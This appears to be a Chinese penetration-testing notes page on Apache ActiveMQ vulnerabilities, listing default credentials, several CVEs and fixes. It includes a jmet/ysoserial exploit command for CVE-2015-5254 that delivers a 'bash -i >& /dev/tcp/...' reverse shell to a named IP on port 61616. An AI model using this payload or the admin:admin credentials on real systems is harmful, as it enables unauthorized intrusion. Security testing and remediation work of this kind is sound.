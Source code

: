 # ActiveMQ
Apache ActiveMQ是Apache软件基金会所研发的开放源代码消息中间件；由于ActiveMQ是一个纯Java程序，因此只需要操作系统支持Java虚拟机，ActiveMQ便可执行。
默认开放端口为:8161,61616   
## 弱口令漏洞

### 漏洞说明
存在默认端口和默认密码 / 未授权访问 (默认密码为 admin:admin)，部分存在guest:guest
### 涉及范围
全版本
### 验证方法
poc_ssh_weakpass.py

### 利用方法
无

### 修复方式

1. 修改登录密码。密码配置文件：`conf/jetty-realm.properties`修改口令
2. 修改61616端口访问密码，端口号。  

## 反序列化漏洞 CVE-2015-5254
### 漏洞说明
Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。
该漏洞利用需要获得后台管理员权限后触发恶意任务

### 涉及范围
5.1-5.13
### 验证方法


### 利用方法
**利用过程：**
1. 构造（可以使用ysoserial）可执行命令的序列化对象
`java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -i >& /dev/tcp/{you_ip}/{your_port}>&1" -Yp ROME 45.32.101.90   61616`
2. 作为一个消息，发送给目标61616端口
3. 访问的Web管理页面，读取消息，触发漏洞
### 修复方式


## 文件上传漏洞 CVE-2016-3088
### 漏洞说明
ActiveMQ 中的 FileServer 服务允许用户通过 HTTP PUT 方法上传文件到指定目录

### 影响范围

### 验证方法

### 利用方法


## 信息泄露漏洞 CVE-2017-15709
### 漏洞说明
Apache ActiveMQ默认消息队列61616端口对外，61616端口使用了OpenWire协议，这个端口会暴露服务器相关信息，这些相关信息实际上是debug信息。
### 影响范围
apache-activemq: 5.15.0~5.15.2
apache-activemq: 5.14.0~5.14.5

### 验证方法
**手工验证**
`nc host 61616` 查看返回信息是否存在操作系统等信息。
**pocsuite**
poc_active_infoleak.py

### 修复方式